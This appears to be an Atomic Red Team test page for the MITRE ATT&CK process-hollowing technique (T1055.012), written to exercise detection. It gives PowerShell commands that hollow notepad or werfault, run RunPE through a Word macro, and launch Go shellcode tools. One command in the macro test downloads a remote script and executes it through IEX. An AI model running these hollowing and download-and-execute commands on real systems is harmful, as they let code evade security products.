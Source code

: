 # T1055.012 - Process Injection: Process Hollowing

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)

<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code> before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Elastic Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)

- [Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI](#atomic-test-3---process-hollowing-in-go-using-createprocessw-winapi)

- [Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)](#atomic-test-4---process-hollowing-in-go-using-createprocessw-and-createpipe-winapis-t1055012)

<br/>

## Atomic Test #1 - Process Hollowing using PowerShell

This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows

**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c

#### Inputs:

| Name                 | Description                                                                | Type   | Default Value                               |
| -------------------- | -------------------------------------------------------------------------- | ------ | ------------------------------------------- |
| hollow_binary_path   | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe     |
| parent_process_name  | Name of the parent process                                                 | string | explorer                                    |
| sponsor_binary_path  | Path of the sponsor binary (executable that will host the binary)          | string | C:&#92;Windows&#92;System32&#92;notepad.exe |
| spawnto_process_name | Name of the process to spawn                                               | string | notepad                                     |

#### Attack Commands: Run with `powershell`!

```powershell
. "$PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:

```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - RunPE via VBA

This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows

**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b

#### Inputs:

| Name       | Description             | Type   | Default Value |
| ---------- | ----------------------- | ------ | ------------- |
| ms_product | Maldoc application Word | string | Word          |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI

Creates a process in a suspended state, executes shellcode to spawn calc.exe in a child process, and then resumes the original process.

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocess)

**Supported Platforms:** Windows

**auto_generated_guid:** c8f98fe1-c89b-4c49-a7e3-d60ee4bc2f5a

#### Inputs:

| Name                | Description                   | Type   | Default Value                                |
| ------------------- | ----------------------------- | ------ | -------------------------------------------- |
| hollow_binary_path  | Path of the binary to hollow  | string | C:&#92;Windows&#92;System32&#92;werfault.exe |
| hollow_process_name | Name of the process to hollow | string | werfault                                     |

#### Attack Commands: Run with `powershell`!

```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcess.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:

```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```

<br/>
<br/>

## Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)

Create a process in a suspended state, execute shellcode to spawn calc.exe in a child process, and then resume the original process.
This test uses the CreatePipe function to create an anonymous pipe that parent and child processes can communicate over. This anonymous pipe
allows for the retrieval of output generated from executed shellcode.

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocesswithpipe)

**Supported Platforms:** Windows

**auto_generated_guid:** 94903cc5-d462-498a-b919-b1e5ab155fee

#### Inputs:

| Name                | Description                   | Type   | Default Value                                |
| ------------------- | ----------------------------- | ------ | -------------------------------------------- |
| hollow_binary_path  | Path of the binary to hollow  | string | C:&#92;Windows&#92;System32&#92;werfault.exe |
| hollow_process_name | Name of the process to hollow | string | werfault                                     |

#### Attack Commands: Run with `powershell`!

```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcessWithPipe.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:

```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```

<br/>
